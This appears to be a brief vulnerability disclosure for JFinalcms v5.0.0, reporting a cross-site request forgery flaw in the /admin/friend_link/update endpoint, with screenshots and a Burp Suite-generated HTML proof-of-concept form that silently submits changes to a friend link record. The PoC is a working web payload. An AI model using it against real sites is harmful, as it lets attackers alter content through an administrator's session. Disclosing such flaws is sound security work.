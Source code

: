 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/friend_link/update
![图片](https://github.com/cui2shark/cms/assets/52313275/8ed0291f-32af-4b2e-ba51-9b8a117ea1c3)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/14e122a5-e249-489f-8d1c-8394c337e81a)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/friend_link/update" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="gid" value="1" />
      <input type="hidden" name="name" value="cs123" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/07e36fe8-babd-4123-bf90-7d12ce9085d3)
